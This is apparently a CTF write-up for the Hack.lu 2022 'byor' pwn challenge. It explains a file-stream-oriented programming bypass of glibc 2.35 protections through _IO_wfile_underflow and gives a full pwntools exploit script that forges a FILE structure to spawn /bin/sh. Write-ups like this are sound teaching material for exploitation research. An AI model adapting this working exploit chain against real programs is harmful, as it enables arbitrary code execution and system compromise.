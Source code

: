 ## byor
was a pwn challenge from Hack.lu 2022 edition

the challenge give us a leak of stdout address in libc

and permit us to overwrite `stdout`.

the goal was to bypass all new protections in libc-2.35 to revive FSOP code execution..

kylebot made some wonderfull research on this task,

by exploring the various path to achieve code execution with angr,

I recommend to read his blog --> [https://blog.kylebot.net/2022/10/22/angry-FSROP/](https://blog.kylebot.net/2022/10/22/angry-FSROP/)

and also the roderick write-ups `house of apple` 1,2 and 3 are great explanation of the attacks and the path taken (too bad I find them after the ctf only...)

[](https://www-roderickchan-cn.translate.goog/post/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=fr)

most of the path he found were using `_wide_data` structure to achieve code execution.

so this challenge overwrite `_wide_data` and we have to found a another way to get code execution

a quick look at the reverse:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Hack.lu.CTF.2022/pwn/byor/pics/reverse.png)


working with teammate VoidMercy, and UDP, we found a path via `_IO_wfile_underflow`

and here is the solution to this task..


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./byor_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "flu.xxx", "11801"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

libc.address = int(rcu(': ', '\n'),16)-libc.sym['_IO_2_1_stdout_']
logbase()

# some constants
stdout_lock = libc.address + 0x21ba70	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.send(bytes(fake))
# enjoy shell
p.interactive()
```

